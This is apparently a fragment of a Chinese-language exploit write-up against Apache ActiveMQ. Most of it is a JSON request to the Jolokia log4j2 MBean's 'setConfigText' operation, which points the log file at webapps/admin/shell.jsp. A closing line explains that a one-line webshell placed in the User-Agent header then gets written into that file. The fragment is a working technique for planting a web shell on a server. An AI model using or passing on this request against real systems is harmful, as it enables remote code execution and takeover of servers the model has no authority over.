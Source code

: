 ```
{"type": "exec", "mbean": "org.apache.logging.log4j2:type=67784306", "operation": "setConfigText", "arguments": ["<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<Configuration>\n    <Appenders>\n        <Console name=\"Console\" target=\"SYSTEM_OUT\">\n            <PatternLayout pattern=\"%5p | %m%n\"/>\n        </Console>\n        <RollingRandomAccessFile name=\"RollingFile\" fileName=\"${sys:activemq.data}/../webapps/admin/shell.jsp\" \n            filePattern=\"${sys:activemq.data}/../webapps/admin/shell.jsp.%i\">\n            <PatternLayout pattern=\"%d | %-5p | %m | %c | %t%n%throwable{full}\"/>\n            <Policies>\n                <SizeBasedTriggeringPolicy size=\"1MB\"/>\n            </Policies>\n        </RollingRandomAccessFile>\n        <RollingRandomAccessFile name=\"AuditLog\" fileName=\"${sys:activemq.data}/audit.log\" filePattern=\"${sys:activemq.data}/audit.log.%i\">\n            <PatternLayout pattern=\"%-5p | %m | %t%n\"/>\n            <Policies>\n                <SizeBasedTriggeringPolicy size=\"1MB\"/>\n            </Policies>\n        </RollingRandomAccessFile>\n    </Appenders>\n    <Loggers>\n        <Root level=\"INFO\">\n            <AppenderRef ref=\"Console\"/>\n            <AppenderRef ref=\"RollingFile\"/>\n        </Root>\n        <Logger name=\"org.apache.activemq.spring\" level=\"WARN\"/>\n        <Logger name=\"org.apache.activemq.web.handler\" level=\"WARN\"/>\n        <Logger name=\"org.springframework\" level=\"WARN\"/>\n        <Logger name=\"org.apache.xbean\" level=\"WARN\"/>\n        <Logger name=\"org.eclipse.jetty\" level=\"DEBUG\"/>\n        <Logger name=\"org.apache.activemq.audit\" level=\"INFO\" additivity=\"false\">\n            <AppenderRef ref=\"AuditLog\"/>\n        </Logger>\n        <!-- Uncomment and modify as needed for ActiveMQ logger\n        <Logger name=\"org.apache.activemq\" level=\"DEBUG\"/>\n        -->\n    </Loggers>\n</Configuration>\n", "utf-8"]}
```

![image-20240229103638533](images/19.png)

再随便访问一次ActiveMQ，将一句话木马插入User-Agent中，即可将其写入日志里
